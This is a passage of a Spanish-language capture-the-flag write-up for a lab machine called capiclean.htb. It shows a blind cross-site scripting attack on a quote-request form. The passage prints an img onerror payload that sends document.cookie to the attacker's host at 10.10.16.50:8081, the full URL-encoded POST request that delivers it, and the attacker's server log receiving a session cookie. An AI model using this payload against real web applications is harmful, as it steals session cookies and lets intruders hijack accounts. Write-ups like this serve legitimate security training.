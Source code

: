 ~~~python
service=Carpet+Cleaning&email=test%40test.com
~~~

- Al mandar el request podemos notar que la página nos responde con este mensaje:

~~~
Thank you

Your quote request was sent to our management team. They will reach out soon via email. Thank you for the interest you have shown in our services.
~~~
***

#### Intrusión:

- Se nos dice que el equipo de gestión recibe nuestro mensaje, por lo que podemos probar con una XSS reflejada.
- Intenté utilizar el típico ``alert("XSS")``, pero la página nos bloquea esta petición desde el navegador.
- Vamos a utilizar este payload:

~~~js
<img src=x onerror=this.src="http://10.10.16.50:8081/cookie.php?c="+document.cookie;>
~~~

- Y lo vamos a encodear en URL, la solicitud POST quedaría de la siguiente manera:

~~~python
POST /sendMessage HTTP/1.1
Host: capiclean.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-MX,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 285
Origin: http://capiclean.htb
Connection: close
Referer: http://capiclean.htb/quote
Upgrade-Insecure-Requests: 1

service=%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%74%68%69%73%2e%73%72%63%3d%22%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%36%2e%35%30%3a%38%30%38%31%2f%63%6f%6f%6b%69%65%2e%70%68%70%3f%63%3d%22%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3b%3e&email=test%40test.com
~~~

- En nuestro puerto, deberíamos recibir la cookie de sesión en texto plano:

~~~bash
❯ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.12 - - [12/Apr/2024 23:25:21] code 404, message File not found
10.10.11.12 - - [12/Apr/2024 23:25:21] "GET /cookie.php?c=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Zhn62Q.tzQGOWjsTz_bvfxovxV_cICTvMU HTTP/1.1" 404 -
~~~
